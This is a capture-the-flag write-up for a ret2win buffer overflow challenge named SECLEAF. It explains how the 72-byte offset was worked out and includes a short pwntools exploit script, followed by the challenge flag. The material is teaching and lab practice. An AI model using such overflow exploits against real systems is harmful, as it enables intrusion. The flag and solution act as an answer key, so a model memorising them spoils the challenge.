

## Description:
A vulnerable SECLEAF access terminal was recovered from a decommissioned internal server. <br>
The developers claimed the system was "unbreakable."<br>
Can you prove otherwise?<br>
Flag Format: SecLeaf{}

## Solution:
1. Using `ghidra`, I found that the `vuln` function takes in 200 bytes of input but only allocates 64 bytes. This is a standard buffer overflow vulnerability. <br>
 <br><br>
2. So the padding = 64 bytes (buffer) + 8 bytes (RBP) = 72 bytes
3. I used the following exploit to get the flag: <br>

```
    from pwn import *

    p = process("./ret2win")
    offset = 72
    win = 0x4011b1   
    payload = b"A" * offset + p64(win)

    p.sendline(payload)
    p.interactive()
```

## Flag:
SecLeaf{sm4sh_th3_st4ck} 